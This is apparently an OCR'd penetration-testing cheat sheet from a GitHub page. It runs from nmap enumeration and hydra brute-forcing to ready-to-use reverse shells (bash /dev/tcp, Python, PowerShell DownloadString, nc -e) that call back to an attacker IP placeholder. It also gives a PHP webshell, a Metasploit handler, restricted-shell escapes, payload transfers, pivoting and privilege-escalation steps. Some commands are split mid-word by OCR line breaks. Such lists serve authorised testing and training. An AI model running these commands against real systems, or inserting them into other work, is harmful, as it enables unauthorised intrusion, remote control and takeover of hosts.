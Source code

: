 # 󾠮 General Enumeration - Nmap 🛠


Basic Scan
nmap -sC -sV -p- -oN full_scan.txt <target>
sC : Runs default scripts
sV : Detects service versions
p- : Scans all ports
oN : Saves output to a file
Aggressive Scan with OS Detection
nmap -A -T4 <target>
Scan Specific Ports
nmap -p 21,22,53,80,443,139,445,2049 <target>
—
# 󾠯 Banner Grabbing 🎭

Using Netcat
nc -nv <target> <port>
Using Telnet
telnet <target> <port>
Using Curl for HTTP Headers
curl -I http://<target>
—


# 󾠰 Port-Specific Enumeration
Port 21 - FTP
nmap --script=ftp-anon -p 21 <target>
Check for anonymous login:
ftp <target>
Port 22 - SSH
Check for weak credentials:
hydra -L users.txt -P passwords.txt ssh://<target>
Port 53 - DNS
Check for zone transfer:
dig axfr @<target> <domain>
Port 79 - Finger
finger @<target>
Port 80/443 - HTTP(S)
gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt
Check for hidden files:
curl -X OPTIONS http://<target>
Port 110 - POP3
nc <target> 110
Use USER and PASS to check login.
Port 139/445 - SMB
nmap --script=smb-enum-shares -p 139,445 <target>
Check for anonymous login:
smbclient -L //<target>/ -N
Port 161 - SNMP
snmpwalk -v2c -c public <target>
Port 2049 - NFS
showmount -e <target>
—

# 󾠱 Shells & Payloads 🎯
Universal Listeners
Netcat Listener:
nc -lvnp 4444
Metasploit Listener:
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT 4444
run
—
Linux Shells
Reverse Shell:
bash -i >& /dev/tcp/<your-ip>/4444 0>&1
Python Reverse Shell:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,so
cket.SOCK_STREAM);s.connect(("<your-ip>",4444));os.dup2(s.fileno(),0); os.
dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
—
Windows Shells
PowerShell Reverse Shell:
powershell -NoP -NonI -W Hidden -Exec Bypass -C "IEX (New-Object Net.We
bClient).DownloadString('http://<your-ip>/shell.ps1')"
Netcat Reverse Shell:
nc.exe -e cmd.exe <your-ip> 4444
—
PHP Webshells
<?php system($_GET['cmd']); ?>
Upload this file and execute commands like:
http://target.com/shell.php?cmd=whoami
—

# 󾠲 Upgrading Your Shell - Linux
If you get a limited shell, upgrade it to an interactive one:
python3 -c 'import pty; pty.spawn("/bin/bash")'
Enable a proper TTY:
export TERM=xterm-256color
stty raw -echo; fg
—

# 󾠳 Escaping Jailed Shells
Check if restricted shell is active:
echo $SHELL
Bypass Limited Shell:
awk 'BEGIN {system("/bin/bash")}'
or
perl -e 'exec "/bin/sh";'
—

# 󾠴 File Transfers 📂
Linux - HTTP Server
Start a Python HTTP server:
python3 -m http.server 8080
Download the file on the target:
wget http://<your-ip>:8080/shell.sh
Windows File Transfer (PowerShell)
Invoke-WebRequest -Uri "http://<your-ip>/nc.exe" -OutFile "C:\Users\Public\nc.exe"
—
# 󾠵 Port Forwarding & Pivoting
Linux
ssh -L 8080:127.0.0.1:80 user@pivot-host
Windows (Chisel)
chisel client <your-ip>:8000 R:8080:127.0.0.1:80
—
# 󾠶 Privilege Escalation 🚀
Windows Privilege Escalation
Check for Privileges
whoami /priv
Find Weak Service Permissions
icacls C:\Program Files\VulnerableApp
Check for Unquoted Service Paths
wmic service get name,displayname,pathname
Windows Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits
—
Linux Privilege Escalation
Find SUID Binaries
find / -perm -4000 2>/dev/null
Check for Sudo Privileges
sudo -l
Escalate to Root if Sudo is Misconfigured
sudo /bin/bash
Kernel Exploits (Dirty Pipe, Dirty COW, etc.)
https://github.com/SecWiki/linux-kernel-exploits
—
